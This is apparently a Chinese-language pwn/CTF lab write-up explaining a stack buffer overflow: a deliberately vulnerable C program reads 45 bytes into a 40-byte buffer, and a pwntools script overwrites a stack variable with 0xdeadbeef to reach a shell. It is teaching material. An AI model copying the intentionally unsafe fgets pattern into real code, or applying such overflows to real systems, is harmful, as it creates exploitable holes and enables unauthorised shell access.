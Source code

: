 第一道题，通过fgets读取超过缓冲区的char数组溢出，修改栈上的变量check，实现程序流跳转，达到hack的目的。非常简单的一道题，需要注意是编译32位程序在Ubuntu22.04上需要安装对应组件，否则hack会失败。
来看源代码：
```c
#include <stdlib.h>
#include <stdio.h>

/*
gcc -o buf1 buf1.c -fno-stack-protector
*/

int main() {

    int var;
    int check = 0x04030201;
    char buf[40];

    fgets(buf,45,stdin);

    printf("\n[buf]: %s\n", buf);
    printf("[check] %p\n", check);

    if ((check != 0x04030201) && (check != 0xdeadbeef))
        printf ("\nYou are on the right way!\n");

    if (check == 0xdeadbeef) {
        printf("Yeah dude! You win!\nOpening your shell...\n");
        system("/bin/dash");
        printf("Shell closed! Bye.\n");
    }
    return 0;
}

```
首先我们需要知道，局部变量var，check，buf均分配在栈上，且依次向下排列。通过gdb也可看出这一点。
![Pwnhub-2024-05-20-16-32-43.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716194020290-959dc4b4-3c71-49c0-ba16-a69bdd38cdac.png#averageHue=%23535b3e&clientId=u9fb7d550-319e-4&from=ui&height=875&id=u603e8b9b&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2571969&status=done&style=none&taskId=u8e3a9981-cc0b-433c-9bc3-b7c6de493aa&title=&width=1555)
栈上的空间如下图所示：
![](https://cdn.nlark.com/yuque/0/2024/jpeg/43291115/1716194474095-b5a6a4fd-82f5-4381-926b-22ac9e2e0072.jpeg)
之后是fgets从stdin读入45个字符，判断check是否为0xdeadbeef。
一个非常直观的想法就是，通过payload构造将buf上的check变量值覆盖为0xdeadbeef。
所以exploit如下：
```python
from pwn import *

ex = process('./buf1')
payload = b"a" * 40 + p32(0xdeadbeef) # type: ignore
ex.sendline(payload)
ex.recvline()
ex.interactive()
```
执行即可实现提权。
